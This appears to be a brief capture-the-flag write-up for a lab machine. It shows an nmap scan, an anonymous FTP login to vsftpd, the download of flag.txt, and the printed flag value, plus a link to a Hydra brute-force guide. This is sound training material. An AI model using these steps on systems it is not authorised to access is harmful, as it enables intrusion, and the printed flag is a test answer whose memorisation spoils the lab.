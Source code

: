 
nmap scanning:

~~~
nmap 10.129.96.87 -sC -sV  
~~~

~~~
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-07 12:28 EDT
Nmap scan report for 10.129.96.87
Host is up (0.80s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.165
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.23 seconds
~~~

after the nmap scan we found this machine ftp protocol open in 21 port

File transfer protocol (FTP) is **a way to download, upload, and transfer files from one location to another on the Internet and between computer systems**.

brute force in ftp using hydra
https://twriting.medium.com/how-to-brute-force-ftp-ssh-login-and-password-using-hydra-5a5ceaf763f9

exploit ftp by using username  anonymous and the password is blank
~~~
ftp 10.129.96.87
~~~
Connected to 10.129.96.87.
220 (vsFTPd 3.0.3)
Name (10.129.96.87:subhash):*anonymous*
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
~~~
ftp> ls
229 Entering Extended Passive Mode (|||38642|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
226 Directory send OK.
ftp> get flag.txt
local: flag.txt remote: flag.txt
229 Entering Extended Passive Mode (|||13718|)
150 Opening BINARY mode data connection for flag.txt (32 bytes).
100% |***********************************************************************************************************************************************|    32        6.09 KiB/s    00:00 ETA
226 Transfer complete.
32 bytes received in 00:00 (0.11 KiB/s)
ftp> bye
221 Goodbye
~~~

cd  flag.txt      
035db21c881520061c53e0536e44f815


finished !!!!!!!!!!!!